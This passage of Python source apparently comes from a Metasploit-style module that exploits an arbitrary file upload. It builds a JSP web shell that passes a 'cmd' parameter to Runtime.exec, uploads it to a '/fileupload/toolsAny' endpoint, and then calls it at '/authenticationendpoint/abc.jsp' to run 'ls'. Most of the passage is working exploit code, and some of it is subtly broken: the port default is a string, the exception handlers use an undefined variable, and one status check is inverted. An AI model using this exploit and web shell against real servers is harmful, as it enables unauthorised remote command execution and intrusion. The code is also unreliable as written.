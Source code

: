         'type': 'single_scanner',
        'options': {
            'RPORT': {'type': 'int', 'description': 'Target port', 'required': True, 'default': '/'},
            'TARGETURI': {'type': 'string', 'description': 'The base path', 'required': True, 'default': '/'},
            'METHOD': {'type': 'string', 'description': 'Vulunarable HTTP method', 'required': True, 'default': 'POST'}
        }
    }


    def find_base_url(args):
        base_url = 'http://{}:{}'.format(args['rhost'], args['RPORT'])
        return base_url

    def make_shell():
        shell = """<FORM>
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
    </FORM>
    <%@ page import="java.io.*" %>
        <%
        String cmd = request.getParameter("cmd");
        String output = "";
        if(cmd != null) {
            String s = null;
            try {
                Process p = Runtime.getRuntime().exec(cmd,null,null);
                BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
                while((s = sI.readLine()) != null) { output += s+"</br>"; }
            }  catch(IOException e) {   e.printStackTrace();   }
        }
    %>
            <pre><%=output %></pre>"""

        return shell

    def exploit(url,files):
        try:
            response = requests.post(url + f'/fileupload/toolsAny', files=files, verify=False)
        except:
            module.log(str(e), level='error')
            return False

        payload = {'cmd': 'ls'}
        url = url + "//authenticationendpoint/abc.jsp"

        try:
            r = requests.get(url,params = payload)
            module.log('success upload abc.jsp',level='good')
            if not r and r.status_code == 200:
                return False
            if(r.text == ""):
                return False
            else:
                module.log('successfully execute cmd',level='good')
        except:
            module.log(str(e), level='error')
            return False

